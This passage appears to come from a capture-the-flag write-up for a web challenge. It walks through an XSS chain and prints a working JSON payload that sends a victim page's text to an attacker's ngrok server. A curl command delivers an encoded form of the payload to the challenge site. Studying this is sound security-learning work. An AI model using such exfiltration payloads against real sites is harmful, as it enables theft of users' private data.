 We realized we could concatenate two values via `innerText` with HTML similar to the following:

```html
<form id='concat'>
   https://url.of.our.server/?
   <div>value_to_concat</div>
</form>
```

Then `window.concat.innerText` would be `https://url.of.our.server/?value_to_concat`.

### Putting it all together

Now all that was left was to craft the payload, test it and send it to the admin.  We crafted a payload that would send us the full `innerText` of the `/note` page:

```json
{
   "__proto__":{},
   "theme":{
      "cb":"document.body.firstElementChild.innerHTML=window.name.toString"
   },
   "payload":[
      "<form id='concat'>https://0b7660a35154.ngrok.io/?<div></div></form>",
      "<iframe srcdoc='<script src=/theme?cb=window.top.concat.firstElementChild.innerText=window.top.document.body.innerText.toString></script>'></iframe>",
      "<iframe srcdoc='<script src=/theme?cb=window.top.location.href=window.top.concat.innerText.toString></script>'></iframe>"
   ]
}
```

In order, this payload should overwrite the contents of the `<nav>` element on the page with our arbitrary HTML containing the two additional callback
executions.  The first grabs the `innerText` of the whole page, and places it in our concatenation `<div>`.  The second callback retrieves the
`innerText` of the `concat` form which should be our URL plus the text of the page, and then sets the browser location to make the request.  We
should then be able to grab the contents of the page by looking at the request sent to our local http server.  Testing it on our own browser, we find that it works.
It sometimes fails due to the script loading order, but succeeds most of the time.

### Getting the note id

Lets incorporate our payload into the exploit for the previous pasteurization challenge.  We'll need to set `window.name` and then change the `location.href`
value to the page we want the text of.  If you remember, certain characters are escaped, so lets base64 encode the JSON string.  Don't forget to url encode as well.

```sh
curl 'https://pasteurize.web.ctfcompetition.com/' --data-raw 'content[]=;window.name=atob(`eyJfX3Byb3RvX18iOiB7fSwidGhlbWUiOiB7ImNiIjogImRvY3VtZW50LmJvZHkuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJIVE1MPXdpbmRvdy5uYW1lLnRvU3RyaW5nIn0sImltZyI6ICIvIiwicGF5bG9hZCI6IFsiPGZvcm0gaWQ9J2NvbmNhdCc%2BaHR0cHM6Ly8wYjc2NjBhMzUxNTQubmdyb2suaW8vPzxkaXY%2BPC9kaXY%2BPC9mb3JtPiIsIjxpZnJhbWUgc3JjZG9jPSc8c2NyaXB0IHNyYz0vdGhlbWU%2FY2I9d2luZG93LnRvcC5jb25jYXQuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJUZXh0PXdpbmRvdy50b3AuZG9jdW1lbnQuYm9keS5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iLCI8aWZyYW1lIHNyY2RvYz0nPHNjcmlwdCBzcmM9L3RoZW1lP2NiPXdpbmRvdy50b3AubG9jYXRpb24uaHJlZj13aW5kb3cudG9wLmNvbmNhdC5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iXX0%3D`);debugger;if(!window.skipIt)location.href=`https://littlethings.web.ctfcompetition.com/note?__debug__`;//'
```
